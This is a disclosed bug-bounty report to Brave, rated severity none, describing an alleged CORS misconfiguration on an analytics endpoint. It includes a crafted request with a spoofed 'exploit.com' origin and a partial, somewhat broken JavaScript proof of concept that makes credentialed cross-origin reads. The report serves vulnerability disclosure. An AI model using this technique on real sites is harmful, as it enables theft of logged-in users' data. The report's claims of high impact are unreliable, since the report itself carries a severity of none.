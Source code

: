# Cross-origin resource sharing misconfiguration (CORS)

## Report Details
- **Report ID**: 954512
- **URL**: https://hackerone.com/reports/954512
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-08-09T16:57:45.118Z
- **Disclosed**: 2020-09-04T00:34:52.551Z

## Reporter
- **Username**: drwx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
Hi!

In this report I want to describe High level bug which can seriously compromise a user account.

If I am authorize on this site, I can steal user's sessions, some personal information or do some action.

In my tests, I found the relevant vulnerability using different methods. I detected the CORS vulnerability at the relevant address with the OPTIONS method. In addition, the server version information is also observed in the relevant response.

Steps for reproduce

1) Send this request

OPTIONS /piwik.php?action_name=%241%20Million%20Token%20Giveaway%20%7C%20Brave%20Browser&idsite=2&rec=1&r=571761&h=19&m=14&s=56&url=https%3A%2F%2Fbrave.com%2Fmillion%2F&_id=&_idts=1596989696&_idvc=1&_idn=1&_refts=0&_viewts=1596989696&send_image=1&cookie=1&res=1366x768&gt_ms=3109&pv_id= HTTP/1.1
Host: analytics.brave.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: image/webp,*/*
Origin: exploit.com
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://brave.com/million/

In response headers you can see headers:

Access-Control-Allow-Origin: exploit.com
Access-Control-Allow-Credentials: true

So you can write exploit:

<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "/piwik.php?action_name=%241%20Million%20Token%20Giveaway%20%7C%20Brave%20Browser&idsite=2&rec=1&r=571761&h=19&m=14&s=56&url=https%3A%2F%2Fbrave.com%2Fmillion%2F&_id=&_idts=1596989696&_idvc=1&_idn=1&_refts=0&_viewts=1596989696&send_image=1&cookie=1&res=1366x768&gt_ms=3109&pv_id=", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
  
Rather than using a wild card or programmatically verifying supplied origins, use a white list of trusted domains.

## Impact

Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server. Attacker can perform any action in the user's account, bypassing CSRF tokes.

## Attachments
- Origin.png
